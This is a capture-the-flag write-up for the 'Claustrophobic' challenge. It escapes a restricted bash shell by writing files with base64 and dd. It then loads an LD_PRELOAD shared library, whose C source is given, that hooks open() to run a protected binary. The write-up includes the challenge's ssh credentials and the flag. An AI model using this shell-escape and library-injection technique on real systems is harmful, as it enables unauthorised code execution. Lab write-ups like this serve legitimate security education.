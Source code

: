 # Claustrophobic - Pwn/misc (250)

Santa is stuck in a chimney and needs your help to escape

Service: ssh -p 1218 claus@3.81.191.176 (password: ClausTrophobic)

## Survey

Connecting to the server, you're presented with a restricted bash shell. Many commands you'd normally use (like `cd`, `cp`, etc) are restricted or unavailable. You're dropped into the home directory for the user and there is an executable file `print_flag` in your current directory so the solution to this challenge is obviously to execute this file. Unfortunately, the only file in your `$PATH` which you can execute from is `/home/claus/bin`.

```bash
claus@1218_claustrophobic:/home/claus$ ls -l
total 20
drwxr-xr-x 1 root root  4096 Dec 18 11:53 bin
--wx--x--x 1 root root 14368 Dec 18 07:33 print_flag
claus@1218_claustrophobic:/home/claus$ ./print_flag 
rbash: ./print_flag: restricted: cannot specify `/' in command names
claus@1218_claustrophobic:/home/claus$ /home/claus/print_flag 
rbash: /home/claus/print_flag: restricted: cannot specify `/' in command names
claus@1218_claustrophobic:/home/claus$ print_flag
rbash: print_flag: command not found
claus@1218_claustrophobic:/home/claus$ echo $PATH
/home/claus/bin
claus@1218_claustrophobic:/home/claus$ ls -l $PATH 
total 0
lrwxrwxrwx 1 root root 15 Dec 18 11:53 base64 -> /usr/bin/base64
lrwxrwxrwx 1 root root  8 Dec 18 11:53 cat -> /bin/cat
lrwxrwxrwx 1 root root  7 Dec 18 11:53 dd -> /bin/dd
lrwxrwxrwx 1 root root 11 Dec 18 11:53 id -> /usr/bin/id
lrwxrwxrwx 1 root root  7 Dec 18 11:53 ls -> /bin/ls
lrwxrwxrwx 1 root root  8 Dec 18 11:53 pwd -> /bin/pwd
lrwxrwxrwx 1 root root 15 Dec 18 11:53 whoami -> /usr/bin/whoami
```

## Writing Files

After poking around a while, we find that its possible to write files using `echo` or `base64` and `dd`. A couple examples are shown below.

```bash
claus@1218_claustrophobic:/home/claus$ echo 'aaaa' | dd of=aaa.dat
0+1 records in
0+1 records out
5 bytes copied, 5.6838e-05 s, 88.0 kB/s
claus@1218_claustrophobic:/home/claus$ cat aaa.dat 
aaaa
claus@1218_claustrophobic:/home/claus$ base64 -d | dd of=bbb.dat
YmJiCg==
0+1 records in
0+1 records out
4 bytes copied, 4.29101 s, 0.0 kB/s
claus@1218_claustrophobic:/home/claus$ cat bbb.dat 
bbb
claus@1218_claustrophobic:/home/claus$ 
```

## Arbitrary Executing

The final trick for this challenge is to leverage the file write into arbitrary execution using `LD_PRELOAD`. There are a couple examples you can find on the internet, but I chose to take craft a shared library which overwrote the `open` libc function. In the new shared object I simply have my `open` execute the `print_flag` file as shown below.

```bash
john@john-virtual-machine:~$ cat inspect_open.c 
#define _GNU_SOURCE
#include <dlfcn.h>
#include <stdio.h>
#include <unistd.h>

typedef int (*orig_open_f_type)(const char *pathname, int flags);

int open(const char *pathname, int flags, ...)
{
  /* Some evil injected code goes here. */
  printf("The victim used open(...) to access '%s'!!!\n",pathname); //remember to include stdio.h!
  execl("/home/claus/print_flag", "print_flag", (char*)0);
  orig_open_f_type orig_open;
  orig_open = (orig_open_f_type)dlsym(RTLD_NEXT,"open");
  return orig_open(pathname,flags);
}
john@john-virtual-machine:~$ gcc -shared -fPIC  inspect_open.c -o inspect_open.so -ldl
john@john-virtual-machine:~$ base64 inspect_open.so 
f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAA8AUAAAAAAABAAAAAAAAAAEgYAAAAAAAAAAAAAEAAOAAH
AEAAHAAbAAEAAAAFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAlAgAAAAAAACUCAAAAAAAAAAA
IAAAAAAAAQAAAAYAAAAADgAAAAAAAAAOIAAAAAAAAA4gAAAAAAA4AgAAAAAAAEACAAAAAAAAAAAg
AAAAAAACAAAABgAAABAOAAAAAAAAEA4gAAAAAAAQDiAAAAAAANABAAAAAAAA0AEAAAAAAAAIAAAA
...
```

Then on the target service I wrote the shared object as shown previously and load it into `cat` which attempts to open a file. Once the new `open` function executes it calls `print_flag` which shows the flag.

```bash
claus@1218_claustrophobic:/home/claus$ base64 -d | dd of=inspect_open.so
f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAA8AUAAAAAAABAAAAAAAAAAEgYAAAAAAAAAAAAAEAAOAAH
AEAAHAAbAAEAAAAFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAlAgAAAAAAACUCAAAAAAAAAAA
IAAAAAAAAQAAAAYAAAAADgAAAAAAAAAOIAAAAAAAAA4gAAAAAAA4AgAAAAAAAEACAAAAAAAAAAAg
AAAAAAACAAAABgAAABAOAAAAAAAAEA4gAAAAAAAQDiAAAAAAANABAAAAAAAA0AEAAAAAAAAIAAAA
AAAAAAQAAAAEAAAAyAEAAAAAAADIAQAAAAAAAMgBAAAAAAAAJAAAAAAAAAAkAAAAAAAAAAQAAAAA
...
AAAAAAAAAAEAAAACAAAAAAAAAAAAAAAAAAAAAAAAAGgQAAAAAAAAKAUAAAAAAAAaAAAAKgAAAAgA
AAAAAAAAGAAAAAAAAAAJAAAAAwAAAAAAAAAAAAAAAAAAAAAAAACQFQAAAAAAAMQBAAAAAAAAAAAA
AAAAAAABAAAAAAAAAAAAAAAAAAAAEQAAAAMAAAAAAAAAAAAAAAAAAAAAAAAAVBcAAAAAAADxAAAA
AAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAA==
15+1 records in
15+1 records out
8008 bytes (8.0 kB, 7.8 KiB) copied, 15.0314 s, 0.5 kB/s
claus@1218_claustrophobic:/home/claus$ LD_PRELOAD=/home/claus/inspect_open.so cat .bashrc
The victim used open(...) to access '.bashrc'!!!
AOTW{pr0c_s3lf_m3m3s}
AOTW{pr0c_s3lf_m3m3s}
```